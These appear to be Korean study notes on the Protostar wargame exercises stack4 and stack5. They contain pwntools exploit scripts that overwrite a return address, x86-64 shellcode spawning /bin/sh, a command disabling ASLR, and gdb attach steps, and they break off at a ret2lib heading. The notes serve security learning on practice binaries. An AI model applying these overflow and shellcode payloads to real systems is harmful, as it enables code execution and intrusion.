 ## 프로토스타 - 7. stack4 return 덮어씌워서 코드 흐름 바꾸기

```python 
from pwn import *

winaddr = p64(0x0000000000400537)
payload = 'A' * 72 + winaddr

p = process(['./stack4'])
p.sendline(payload)
print p.recvrepeat(1)
```
=======================================================

## 프로토스타 - 8. stack5 쉘코드 생성, 리눅스 어태치 방법

- 칼리리눅스 ASLR 끄기
>echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

- 어태치 방법
1. pwn 프로그램에 pause()를 사용해서 잠시 멈춘다.
2. gdb ./stack5 (pid)
3. 디버깅 하고 싶은 부분에 break를 건다. b *main+38
4. conti 디버거를 계속 실행 시킨다.
5. pwn 프로그램에 엔터를 누른다. (sendline)
6. 익스플로잇이 성공했는지 확인한다.

```python !stack5.py
from pwn import *

buf =  ""
buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
buf += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x56\x57\x48\x89\xe6\x0f\x05"

retaddr = p64(0x7fffffffe1f0)
payload = 'A' * 72 + retaddr + buf

p = process(['./stack5'])
pause()
p.sendline(payload)
print p.recvrepeat(1)

p.interactive()
```
=======================================================

## 프로토스타 - 9. stack5 또다른 해결 방법 ret2lib

- 칼리에서 32bit 프로그램 실행을 위한 라이브러리
> sudo apt install lib32z1
